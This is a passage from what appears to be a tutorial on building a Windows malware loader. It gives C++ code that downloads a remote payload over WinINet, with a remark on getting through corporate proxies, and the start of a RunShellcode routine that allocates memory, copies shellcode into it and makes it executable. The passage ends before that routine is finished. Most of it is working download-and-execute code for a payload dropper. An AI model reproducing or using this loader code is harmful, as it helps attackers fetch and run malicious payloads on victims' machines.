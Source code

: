 ```
            else {
                *data = (PBYTE)Memory::ReAlloc(*data, total + read);
            }

            if (!*data) {
                DBGPRINT(L"File %s, line %d, alloc error %d", __FILEW__, __LINE__, GetLastError());
                break;
            }
           
            memcpy(*data + total, buffer, read);

            total += read;
        }
    } while (false);

    if (inet_handle) {
        InternetCloseHandle(inet_handle);
    }

    if (url_handle) {
        InternetCloseHandle(url_handle);
    }

    return ret;
}
```
As you can see, we call InternetOpenW, passing the user agent there with the first parameter, with which the request to the server will go, and the second is the constant INTERNET_OPEN_TYPE_PRECONFIG, without specifying which, when connecting to the network, the loader will not pick up the built-in proxy, which may occur from time to time in corporate networks.
Next, a link to the file opens via InternetOpenUrlW and the data is gradually read using the InternetReadFile function. The difference between these two functions, as mentioned above, is in the subsequent actions with the read data.
Data is read 4096 bytes at a time and in the first function is written to the specified file, and in the second - to the buffer, the memory in which is realigned at each iteration of the file pass.

Now we will start writing the functionality for launching the payload. Let's start by running the shellcode:
```
void RunShellcode(PBYTE shellcode, DWORD shellcode_size) {
    PVOID shellcode_mem = nullptr;
    HANDLE thread_handle = 0;

    do
    {
        shellcode_mem = VirtualAlloc(nullptr, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

        if (!shellcode_mem) {
            DBGPRINT(L"File %s, line %d, VirtualAlloc error %d", __FILEW__, __LINE__, GetLastError());
            break;
        }

        memcpy(shellcode_mem, shellcode, shellcode_size);

        DWORD old_protect = 0;

        if (!VirtualProtect(shellcode_mem, shellcode_size, PAGE_EXECUTE_READ, &old_protect)) {
            DBGPRINT(L"File %s, line %d, VirtualProtect error %d", __FILEW__, __LINE__, GetLastError());
            break;
        }

```